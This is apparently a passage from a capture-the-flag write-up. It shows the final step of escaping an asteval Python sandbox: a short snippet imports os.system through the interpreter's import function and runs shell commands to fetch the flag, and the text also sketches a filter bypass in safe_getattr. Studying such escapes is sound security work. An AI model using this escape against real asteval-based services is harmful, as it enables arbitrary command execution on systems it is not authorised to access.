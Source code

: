 ### Profit:
At this point we have a variety of options. The `asteval` `Interpreter` is an object with powerful functions that hasn't been written with security in mind.
The easiest option is to use the import functionality.
A fun alternative option is to evade the filters on attribute names in `safe_getattr` by creating a fake subtype of string and overwriting the `id` attribute of an `ast.Name` node with it, but I'll leave that as an exercise for the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
